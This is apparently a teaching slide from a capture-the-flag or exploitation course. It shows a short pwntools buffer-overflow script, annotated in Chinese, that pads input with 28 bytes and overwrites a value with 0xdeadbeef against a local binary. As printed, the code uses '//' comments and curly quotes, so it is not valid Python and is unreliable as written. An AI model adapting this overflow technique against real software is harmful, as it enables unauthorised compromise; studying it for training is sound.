

# Exploit code
from pwn import *
// 載入pwntool 套件
r = process(‘./pass‘)
//讀取本地端檔案
payload = b‘A‘*28
// 塞入28個資料 A可替換為B C D 等等
r.sendline(payload + p64(0xdeadbeef))
// 填滿位置後將64位元的0xdeadbeef 塞入至位置
r.interactive()